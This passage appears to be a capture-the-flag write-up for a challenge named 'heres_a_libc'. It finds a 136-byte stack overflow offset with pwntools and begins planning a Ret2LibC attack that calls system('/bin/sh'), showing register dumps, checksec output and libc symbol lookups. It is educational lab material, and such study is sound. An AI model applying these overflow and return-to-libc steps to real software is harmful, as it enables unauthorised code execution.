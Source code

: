 ```the
 R10  0x0
*R11  0x246
 R12  0x1b
 R13  0x0
 R14  0x1b
 R15  0x0
*RBP  0x6261616962616168 ('haabiaab')
*RSP  0x7ffda6edea28 ◂— 'jaabkaablaabma'
*RIP  0x400770 (do_stuff+152) ◂— ret
```

It's failing to pop the saved return address from the stack $rsp (because it's
an illegal address, as expected since it's been corrupted with cyclic input),
and we can see its current value is `jaabkaablaabma`.

So now to the shell:

```sh
kavefish@cairn:heres_a_libc/ $ cyclic -l jaab
136
```

So we need to send 136 garbage bytes first, then the next 8 bytes we send will
overwrite the saved return address.

## Picking an exploitation approach: Ret2LibC

Alas the target binary has NX enabled, so the stack isn't executable and thus we
have to ROP to control execution flow:

```
'/heres_a_libc/vuln_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Also, the challenge's name is a big hint that Ret2LibC is the intended approach.
;)

The simplest Ret2LibC attack invokes the `system()` function to run `/bin/sh`.
Let's start there.

pwntools will happily tell us the offset of `system()` into the libc binary:

```py
from pwn import *
libc = ELF("./libc.so.6")
In [11]: hex(libc.symbols['system'])
Out[11]: '0x4f4e0'
```

However, that's not an absolute address; it doesn't fall within any of the
allocated regions as shown by `vmmap`. Even if it were the absolute address of
`system()`, our libc is a position independent executable, so its address could
be randomized each time the process starts.
